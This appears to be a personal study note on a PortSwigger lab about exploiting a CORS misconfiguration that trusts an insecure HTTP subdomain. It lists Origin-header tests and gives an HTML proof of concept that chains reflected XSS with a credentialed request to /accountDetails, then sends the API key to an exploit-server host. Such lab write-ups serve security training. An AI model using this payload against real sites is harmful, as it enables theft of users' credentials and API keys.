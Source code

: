 ```yaml
---
tags:
  - PRACTITIONER
Link:
  - "[[CORS]]"
External Link:
  - https://portswigger.net/web-security/cors/lab-breaking-https-attack
---
```


# CORS vulnerability with trusted insecure protocols
---

**Target Goal** - Exploit the CORS misconfiguration to retrieve the administrator's API key

**Creds** - wiener : peter

**Analysis:**

**Testing for CORS misconfigurations:**
1. Change the origin to an arbitrary value
2. Change the origin header to the null value4
3. Change the origin header to one that begins with the origin of the site.
4. Change the origin header to one that ends with the origin of the site.

**POC**:

```html
<html>
	<body>
		<h1>Hello World!</h1>
		<script>
			document.location="http://stock.YOUR-URL-HERE.web-security-academy.net/?productId=<script>var xhr = new XMLHttpRequest();var url = 'https://YOUR-URL-HERE.web-security-academy.net';xhr.onreadystatechange = function() {if (xhr.readyState == XMLHttpRequest.DONE){fetch('https://exploit-YOUR-URL-HERE.exploit-server.net/log?key=' %2b xhr.responseText)};};xhr.open('GET', url %2b '/accountDetails', true);xhr.withCredentials = true;xhr.send(null)%3c/script>&storeId=1"
		</script>
	</body>
</html>
```

